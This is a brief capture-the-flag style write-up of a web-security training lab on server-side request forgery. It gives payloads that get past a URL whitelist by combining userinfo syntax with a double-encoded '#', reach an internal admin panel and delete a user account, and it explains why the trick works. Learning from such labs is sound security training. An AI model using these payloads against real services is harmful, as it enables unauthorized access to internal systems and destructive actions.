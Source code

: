 # Lab: SSRF with whitelist-based input filter

Vulnerable feature - stock check functionality

Goal - To solve the lab, change the stock check URL to access the admin interface at ```http://localhost/admin``` and delete the user ```carlos```.

Analysis :

localhost: `http://localhost%2523@stock.weliketoshop.net`

admin interface: `http://localhost%2523@stock.weliketoshop.net/admin`

delete Carlost : `http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos`

Explanasion :

`Payload: localhost%2523@stock.weliketoshop.net`

- We have used ```localhost@stock.weliketoshop.net``` -> to bypass the whitelist filter
- then we have added the double encoded value for `#` to just trick URL parser
- So the URL parser for the back end system forwards `localhost%2523@stock.weliketoshop.net` Accepting it
- And  the webdirver i think is decoding the url so it will be `localhost#@stock.weliketoshop.net`
- because the usage of `#` symbol the rest of the URL is ignored and the actual request got sended to the localhost

>I LOVE THIS LAB
